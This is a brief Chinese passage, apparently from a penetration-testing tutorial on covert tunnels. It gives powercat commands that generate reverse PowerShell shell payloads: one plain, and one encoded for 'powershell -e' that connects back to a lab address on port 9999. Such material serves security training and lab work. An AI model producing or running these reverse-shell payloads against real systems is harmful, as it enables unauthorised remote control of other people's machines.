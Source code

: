 ![](img/隐藏通信隧道基础知识/58.png)

如果想生成一个反弹Powershell的Payload那么就用下面的命令生成：

```
powercat -l -p 8000 -ep -v -g >> shell.ps1
```

用Powercat也可以直接生成经过编码的Payload。

在Win7中执行命令，即可得到编码后的Pyload：（-g生成payload）（-ge生成经过编码的payload，可以直接使用powershell -e 进行反弹shell）

```
powercat -c 192.168.2.13（win7） -p 9999 -ep -ge > 1.txt
```
